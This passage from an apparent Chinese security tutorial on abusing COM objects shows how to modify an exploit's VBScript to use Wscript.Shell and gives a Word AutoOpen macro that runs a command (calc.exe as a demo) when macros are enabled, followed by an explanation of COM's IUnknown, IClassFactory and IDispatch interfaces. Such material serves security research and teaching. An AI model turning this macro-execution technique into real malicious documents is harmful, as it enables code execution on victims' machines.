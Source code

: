 ```html
```

&emsp;&emsp;将EXP中如下vbs代码替换成创建Wscript.Shell即可。

&emsp;&emsp;替换前：

```vbscript
' Execute cmd
Set Object = CreateObject("Shell.Application")
Object.ShellExecute "cmd"
```

&emsp;&emsp;替换后：

```vbscript
' Execute cmd
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
```

&emsp;&emsp;最终实现效果：

![改造EXP](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/%E6%94%B9%E9%80%A0EXP.png)

&emsp;&emsp;接下来讲述COM对象在Office宏中的利用，以Office2019为例，在word文档中创建如下宏代码：

```vbscript
Sub AutoOpen()
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
End Sub
```

&emsp;&emsp;打开文件后，会提示宏已被禁用：

![宏安全提示](https://joeyzzzzzz.github.io/Picture/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/%E5%AE%8F%E5%AE%89%E5%85%A8%E6%8F%90%E7%A4%BA.png)

&emsp;&emsp;点击启用宏后，使用cmd起计算器：

![word起calc](https://joeyzzzzzz.github.io/Picture/COM对象的利用与挖掘/word起calc.png)

&emsp;&emsp;用法和IE中一致，就不再赘述了。

### 通过高级语言创建COM对象

&emsp;&emsp;如果想通过高级语言（这里以C++为例）使用COM对象的话，必须要明白微软定义的COM三大接口类：[IUnknown](https://docs.microsoft.com/en-us/windows/win32/api/unknwn/nn-unknwn-iunknown)、[IClassFactory](https://docs.microsoft.com/en-us/windows/win32/api/unknwnbase/nn-unknwnbase-iclassfactory)和[IDispatch](https://docs.microsoft.com/en-us/windows/win32/api/oaidl/nn-oaidl-idispatch)。

&emsp;&emsp;COM规范规定任何组件、任何接口都必须从IUnknown继承，IUnknown内包含3个函数：QueryInterface、AddRef和Release。QueryInterface用于查询组件实现的其它接口，AddRef用于增加引用计数，Release用于减少引用计数。根据本人的理解来看，QueryInterface用来获取IClassFactory类的的接口，AddRef和Release用于控制装载后InProcServer32所在PE文件的生命周期。当引用计数大于0时，内存中始终存在一个PE文件可以创建COM对象，当引用计数等于0时，系统会将内存中的PE文件释放掉，也就无法对该COM对象进行任何操作了。
